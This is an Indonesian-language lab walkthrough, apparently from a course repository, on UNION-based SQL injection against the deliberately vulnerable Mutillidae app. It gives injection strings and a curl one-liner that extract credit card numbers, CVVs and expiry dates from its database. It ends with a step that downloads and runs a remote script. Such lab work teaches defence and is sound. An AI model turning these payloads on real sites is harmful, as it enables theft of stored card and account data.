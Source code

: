 # Mutillidae Lesson 8

### Union

- Pada server, ketikkan perintah dibawah
```
sudo mysql
```
- Lalu jalankan query berikut
```
show databases; //untuk melihat daftar database
use owasp10; //mengakses database owasp10
show tables; //untuk melihat daftar tabel
desc accounts; //untuk melihat tabel accounts
desc credit_cards; //untuk melihat tabel credit_cards
```
![](Mutillidae%20lesson%208/metasploit_1.png)
- Lalu jalankan query select menggunakan union
```
select * from accounts union select ccid,ccnumber,ccv,expiration,null from credit_cards;
```
![](Mutillidae%20lesson%208/metasploit_2.png)
- Hasilnya adalah tabel gabungan dari tabel accounts dan credit_cards. Tujuannya adalah untuk melihat isi dari tabel credit_cards dari query tabel accounts.


### Membuka Halaman User Info

- Pada client, buka mutillidae dari browser
```
http://[ip_metasploit]/mutillidae
```
- Buka halaman User Info
```
OWASP TOP 10 -> A1 - SQL Injection -> SQLi Extract Data -> User Info
```
![](Mutillidae%20lesson%208/1.png)

### SQL Injection (Contoh #1)
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
```
"size=100"`
```
![](Mutillidae%20lesson%208/2.png)
- Isi form Name dengan string berikut
```
' union select null -- //selalu tambahkan spasi setelah "--"
```
- Klik View Account Details
![](Mutillidae%20lesson%208/4.png)
- Keterangan: Jumlah null melambangkan jumlah field pada tabel. 
- Hasil error disebabkan karena jumlah field tidak sesuai.


### SQL Injection (Contoh #2)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select null,null,null,null,null -- //selalu tambahkan spasi setelah "--"
```
- Klik View Account Details
![](Mutillidae%20lesson%208/6.png)
- Keterangan: Untuk mengetahui jumlah field pada tabel dengan diulang dengan mencoba-coba hingga tidak terjadi error. Pada contoh diatas jumlah field-nya ada 5 sehingga ditulis null sebanyak 5.
- Hasilnya kosong karena nilai yang dimasukkan semuanya null.
![](Mutillidae%20lesson%208/7.png)

### SQL Injection (Contoh #3)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select 1,2,3,4,5 -- //selalu tambahkan spasi setelah "--"
```
- Klik View Account Details
![](Mutillidae%20lesson%208/8.png)
- Keterangan: Tujuannya adalah untuk mencari tahu urutan field pada tabel. Urutan field username, password, dan signature didapatkan sesuai dengan nilai yang dimasukkan.
![](Mutillidae%20lesson%208/9.png)

### SQL Injection (Contoh #4)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards --  //selalu tambahkan spasi setelah "--"
```
- Klik View Account Details
![](Mutillidae%20lesson%208/10.png)
- Keterangan: Tujuannya adalah untuk mencari mengambil nilai dari tabel credit_cards sesuai dengan urutannya.
- Hasil :
```
Username berisi ccnumber
Password berisi ccv
Signature berisi expiration
```
![](Mutillidae%20lesson%208/11.png)

### SQL Injection (Contoh #5)
- Tujuannya sama dengan Contoh #4 dengan perbedaan pada metode yang menggunakan curl.
- Buka terminal dan jalankan perintah dibawah
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[ip_metasploit]/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
```
![](Mutillidae%20lesson%208/12.png)
- Maka hasilnya akan sama dengan Contoh #4.
![](Mutillidae%20lesson%208/13.png)
- Untuk menyimpan hasil kedalam sebuah file jalankan perintah berikut
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[ip_metasploit]/mutillidae/index.php" | grep -i "Username="  > lesson8.txt
cat lesson8.txt
```
![](Mutillidae%20lesson%208/14.png)
- Karena hasilnya susah dibaca, download dan jalankan output parser
```
cd /root
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
mv lesson8.pl.TXT lesson8.pl
chmod 700
lesson8.pl
./lesson8.pl
```
![](Mutillidae%20lesson%208/16.png)
![](Mutillidae%20lesson%208/17.png)
